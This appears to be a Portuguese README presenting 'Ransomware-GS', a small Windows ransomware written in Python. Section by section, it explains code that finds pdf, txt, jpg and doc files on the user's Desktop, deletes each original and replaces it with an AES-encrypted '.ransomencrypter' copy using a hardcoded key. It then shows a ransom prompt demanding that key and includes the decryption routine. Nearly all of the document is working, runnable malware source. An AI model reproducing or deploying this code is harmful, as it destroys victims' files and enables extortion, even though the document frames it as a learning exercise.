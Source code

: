 # Ransomware-GS
 Descrição do funcionamento do ransomware
Esse ransomware foi feito para funcionar em windows.
 Primeiramente precisamos fazer os imports necessários 
 
 
import os  # sistema operacional


import glob  # busca os arquivos


import time


import pyaes  # biblioteca de criptografia aes

 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.

lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]

print('Criptografando')

time.sleep(3)
 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:

    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():

    for files in lst_arqui:
        for format_file in glob.glob(files):
            print(format_file)
            f = open(f'{desktop}\\{format_file}', 'rb')  # rb = read binary e wb = write binary
            file_data = f.read()
            f.close()
 
            os.remove(f'{desktop}\\{format_file}')
            key = b"1ab2c3e4f5g6h7i8"  # 16 byts key - chave
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(file_data)
            # Salvando arquivo novo (.ransomencrypter)
            new_file = format_file + ".ransomencrypter"
            new_file = open(f'{desktop}\\{new_file}', 'wb')
            new_file.write(crypto_data)
            new_file.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
 def descrypt(decrypt_file):
   try:
   
       for file in glob.glob('*.ransomencrypter'):
            keybytes = decrypt_file.encode()
            name_file = open(file, 'rb')
            file_data = name_file.read()
            dkey = keybytes
            daes = pyaes.AESModeOfOperationCTR(dkey)  # gera a decriptografia
            decrypt_data = daes.decrypt(file_data)
 
            format_file = file.split('.')
            new_file_name = format_file[0] + '.' + format_file[1]
 
            dnew_file = open(f'{desktop}\\{new_file_name}', 'wb')
            dnew_file.write(decrypt_data)
            dnew_file.close()
    except ValueError as err:
        print('Chave inválida')
 
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':

    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida.')


